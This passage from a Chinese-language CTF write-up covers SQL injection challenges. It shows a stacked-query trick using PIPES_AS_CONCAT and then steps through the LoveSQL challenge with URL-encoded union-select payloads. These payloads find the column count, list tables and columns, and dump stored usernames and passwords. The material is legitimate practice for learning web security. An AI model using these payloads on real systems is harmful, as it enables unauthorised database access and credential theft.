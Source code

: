 ```
*,1
```

语句就会变成

```sql
select * , 1||flag from Flag
select * , 1 from Flag
```

这个就会返回flag所有的列以及一个额外的列1

还有一种方法

```sql
1;set sql_mode=PIPES_AS_CONCAT;select 1
```

这个方法也是利用堆叠，设置sql的模式，将管道符`||`​视为连接符，之后就变成了

```sql
select concat(1,flag) from Flag 
```

### [极客大挑战 2019]LoveSQL

拿到题，和之前有题的页面一样，尝试使用万能密码失败，在用户名处使用成功，观察url，发现是使用get传，尝试sql注入

报错所以是3

```
?username=1%27+order by 4%23&password=asd
```

数据库名和3成功在页面上显示出来

```
?username=1%27+union select 1,database(),3%23&password=asd
```

然后就是常规的注入

获取表名

```
?username=1%27+union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='geek' %23&password=asd
```

获取列名

```
?username=1%27+union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1' %23&password=asd
```

获取数据

```
?username=1%27+union select 1,database(),group_concat(username,id,password) from l0ve1ysq1 %23&password=asd
```
